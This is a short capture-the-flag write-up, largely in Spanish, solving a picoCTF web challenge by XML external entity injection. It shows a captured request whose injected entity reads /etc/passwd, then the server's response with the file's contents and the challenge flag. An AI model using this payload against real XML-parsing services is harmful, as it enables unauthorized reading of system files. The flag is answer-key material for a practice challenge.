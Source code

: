 ## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solución
Vemos la consulta con burpsuite
```http
POST /data HTTP/1.1

Host: saturn.picoctf.net:65236

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://saturn.picoctf.net:65236/

Content-Type: application/xml

Content-Length: 61

Origin: http://saturn.picoctf.net:65236

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>

<data><ID>

3

</ID></data>
```
Insertamos entidad externa y accedemos a la carpeta de las contraseñas
```HTTP
POST /data HTTP/1.1

Host: saturn.picoctf.net:65236

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://saturn.picoctf.net:65236/

Content-Type: application/xml

Content-Length: 137

Origin: http://saturn.picoctf.net:65236

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY toreplace SYSTEM '/etc/passwd'> ]>

<data><ID>

&toreplace;

</ID></data>
```

Reenviamos la consulta y vemos la respuesta
```
HTTP/1.1 200 OK

Server: Werkzeug/2.3.6 Python/3.8.10

Date: Tue, 01 Oct 2024 02:44:18 GMT

Content-Type: text/html; charset=utf-8

Content-Length: 1025

Connection: close



Invalid ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

## Notas Adicionales

## Referencias
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity